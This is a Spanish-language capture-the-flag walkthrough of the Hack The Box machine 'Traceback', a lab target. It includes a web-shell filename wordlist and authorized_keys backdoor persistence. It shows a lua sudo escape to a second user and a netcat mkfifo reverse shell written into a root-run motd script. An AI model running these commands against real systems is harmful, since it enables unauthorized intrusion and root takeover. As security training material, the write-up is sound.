

# Traceback

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Web Shell
- SSH
- GTFOBins lua
- pspy64 process

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.181`

```
Nmap scan report for 10.10.10.181
Host is up (0.067s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Revisando el puerto 80 en el navegador nos encontramos con esto:


Viendo el mensaje anterior en la web e investigando un poco se llega al [github](https://github.com/Xh4H/Web-Shells) del usuario **Xh4H** que cuenta con un repositorio llamado **Web-Shells**, podemos utilizar esos nombres para encontrar la shell que dejo en el sistema.

##### shell.txt
```
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

`gobuster dir -u http://10.10.10.181/ -w shell.txt`


`http://10.10.10.181/smevk.php`


El archivo **smevk.php** tiene el usuario y password **admin:admin**.


Nos dirigimos al directorio **/home/webadmin/.ssh/** y agregamos nuestra llave publica SSH al archivo **authorized_keys** para conectarnos por ese servicio.

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCp+35X9aTn2YDDHkJMeD1MFMXBZx8PXkYQoCqjKolnrhTkmojkLeEqioKV3NBKdHOY+XxqUMJh8WMbrbzwf3pNrrqdU+yifHqmecpGyFrwyiHRfY3TpNEUMEIRI+bHYLSnmsQXU/Iji+qd7MQSW62X4jxs9OuD5gMoKYHx4jEYAJgQfcAMvwIvRPMFAJEC0RlMVYVwhLMGCqYHz25Y6do7Cqw6C2S/l/nHfUtGkpcfDrO7BO3Y2vuwDNnmJ+4HiU4ziN1lbLVeYBtbZixIy42Kj8lJ05uOtLQo/l0jzyV54vUQTB5CKVX0Lmbey3f2/IfRpjzTBOrjX4bHK7GNNT6xJAFbASzRZq4yWqAuduu8It5p9dzVo8fyI2eNiXIkca5V/VwnN39U5P3vBsL0kui1LS6Sa38ovLYFqH8fSZLDPpWBvXziwTLLfgiZxEoE/meutAwAHpjlcEAUkChHkOiE0KYrwwr+3cpDMlAqJhg09JfEeEaeBgCClVLonBEjFc0= marty@mcfly" >> authorized_keys
```


`ssh webadmin@10.10.10.181`


## Escalada de Privilegios (User)

Existe un archivo llamado **note.txt** y también nos podemos percatar que tenemos permitido usar un comando con el usuario **sysadmin**.


Investigando la forma de escalar con **lua** como lo menciona el archivo **note.txt**, usaremos [GTFOBins](https://gtfobins.github.io/gtfobins/lua/) para obtener shell como **sysadmin**.

- `sudo -u sysadmin /home/sysadmin/luvit`
- `os.execute('/bin/bash')`

Posteriormente procedemos a escribir nuestra llave publica SSH en **authorized_keys** como lo hicimos anteriormente.


`ssh sysadmin@10.10.10.181`



## Escalada de Privilegios (Root)

Mandamos **pspy64** al servidor para saber en tiempo real si hay algún proceso corriendo que nos pueda ayudar a escalar privilegios.

- `bash`
- `scp pspy64 sysadmin@10.10.10.181:/tmp/`
- `chmod +x pspy64`


Usando **pspy64** vemos que hay un proceso interesante que se ejecuta con el usuario root (UID=0), este proceso se ejecuta cada vez que se establece una conexión por SSH con el usuario **sysadmin**.

`./pspy64`


Si vamos a los directorios que se mencionan en el proceso vemos que tenemos permisos de escritura.


Lo cual podemos usar para escribir nuestra reverse shell y obtener una shell como root. Tenemos que ser rápidos al ejecutar cada comando, ya que los archivos se reinician cada cierto tiempo.

Ponemos a la escucha nuestro netcat.

`nc -lvnp 4321`

Escribimos nuestro comando.

- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.160 4321 >/tmp/f' >> /etc/update-motd.d/00-header`
- `cat /etc/update-motd.d/00-header`


Nos conectamos por SSH.

`ssh sysadmin@10.10.10.181`


## Referencias
https://github.com/Xh4H/Web-Shells \
https://gtfobins.github.io/gtfobins/lua/ \
https://github.com/DominicBreuker/pspy